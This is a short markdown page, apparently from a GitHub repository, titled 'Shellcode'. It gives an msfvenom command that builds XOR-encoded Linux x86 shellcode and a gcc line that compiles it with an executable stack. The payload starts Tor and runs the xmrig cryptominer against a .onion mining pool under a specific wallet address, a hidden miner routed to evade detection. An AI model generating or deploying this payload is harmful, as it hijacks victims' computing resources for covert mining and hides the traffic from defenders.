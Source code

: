 # Shellcode

## Generate shellcode
```bash
$ msfvenom -p linux/x86/exec CMD="tor -DataDirectory /root & xmrig --url hashvaultsvg2rinvxz7kos77hdfm6zrd5yco3tx2yh2linsmusfwyad.onion --proxy=localhost:9050 --user 41yjBrEhDeThnyvxhbiC3rQwcJtV3X1Zy8s9uW4NKUxVKaH59C4XyuW72D1DeLqm7oSGunxpu4WgNawx1FqWc1deCAZTauo --pass x --donate-level 1 --tls --tls-fingerprint 420c7850e09b7c0bdcf748a7da9eb3647daf8515718f36d9ccfdd6b9ff834b14" -f c -e x86/xor_dynamic
```

## Compile shellcode
```bash
gcc -z execstack -m32 -o shellcode shell.c
```